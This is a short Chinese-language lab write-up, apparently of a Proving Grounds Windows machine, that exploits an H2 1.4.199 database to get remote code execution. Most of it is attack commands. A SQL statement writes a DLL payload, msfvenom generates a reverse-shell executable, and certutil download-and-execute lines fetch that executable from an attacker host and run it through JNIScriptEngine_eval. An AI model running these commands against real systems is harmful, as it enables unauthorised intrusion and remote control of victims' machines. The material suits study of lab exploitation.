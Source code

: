 后台得到系统版本号为` H2 1.4.199 `，按照exp执行sql语句(太长了不全粘了)：https://www.exploit-db.com/exploits/49384

```
SELECT CSVWRITE('C:\Windows\Temp\JNIScriptEngine.dll', CONCAT('SELECT NULL "', CHAR(0x4d),CHAR(0x5a),CHAR(0x90)。。。。。。。CHAR(0x00),CHAR(0x00),CHAR(0x00),'"'), 'ISO-8859-1', '', '', '', '', '');
```

成功执行whoami

![image-20250307102100854](./PG_win.assets/image-20250307102100854.png)

直接利用powershell+base64反弹shell失败，使用msf生成反弹exe

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.161 LPORT=80 -f exe > rev.exe
```

传输到靶机

```
certutil -split -urlcache -f http://192.168.45.161:90/rev.exe C:\\Windows\\Temp\\rev.exe #执行的命令
CALL JNIScriptEngine_eval('new java.util.Scanner(java.lang.Runtime.getRuntime().exec("certutil -split -urlcache -f http://192.168.45.161:90/rev.exe C:\\Windows\\Temp\\rev.exe").getInputStream()).useDelimiter("\\Z").next()');  #实际执行的sql语句
```

执行rev.exe成功反弹shell

```
C:\\Windows\\Temp\\rev.exe   #执行的命令
CALL JNIScriptEngine_eval('new java.util.Scanner(java.lang.Runtime.getRuntime().exec("C:\\Windows\\Temp\\rev.exe").getInputStream()).useDelimiter("\\Z").next()');   #实际执行的sql语句
```

